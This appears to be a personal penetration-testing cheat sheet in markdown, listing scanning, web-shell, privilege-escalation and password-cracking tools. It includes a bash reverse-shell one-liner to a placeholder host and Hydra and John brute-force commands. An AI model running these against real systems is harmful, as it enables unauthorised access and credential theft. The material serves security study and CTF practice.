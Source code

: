 # My Security Resources
## Scan
### Services
- nmap
    - Parameters
        - `-A` : Enable OS detection, version detection, script scanning, and traceroute
- enum4linux
    - Parameters
        - `-a` : 
## Web
### Scan Directory
- [Dirsearch](https://github.com/maurosoria/dirsearch)
- [Githack-python3](https://github.com/tigert1998/GitHack-py3)
### Shell
#### Web Shell
- [b374k](https://github.com/b374k/b374k)
#### Reverse Shell
- https://reverse-shell.sh/
- [Reverse Shell Cheatsheet](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)
- `bash -c 'bash -i >& /dev/tcp/my_ip/7877 0>&1'`
## Privilege
### Software
- [GTFOBins](https://gtfobins.github.io/)
    - Linux privileges escalation 
- [PEASS-ng](https://github.com/carlospolop/PEASS-ng)
    - Scan the system to find which can be use for privileges escalation
- [Pspy](https://github.com/DominicBreuker/pspy)
    - Monitor the process
### Command
- `sudo -l`
## Burp Force
### Software
- Hydra
    - Crack online services password
        - SMB、SSH......
    - Usage
        - `hydra -l {username} -P {path_to_wordlist} ssh://{ip_address}`
- John the ripper
    - Crack hash like /etc/shadow
    - Support tools
        - [ssh2john](https://github.com/openwall/john/blob/bleeding-jumbo/run/ssh2john.py)
        - gpg2john
    - Usage
        - `john {file} --wordlist={wordlist}`
- Hashcat
    - Crack hash 
### Dictionary
- rockyou.txt
- https://github.com/danielmiessler/SecLists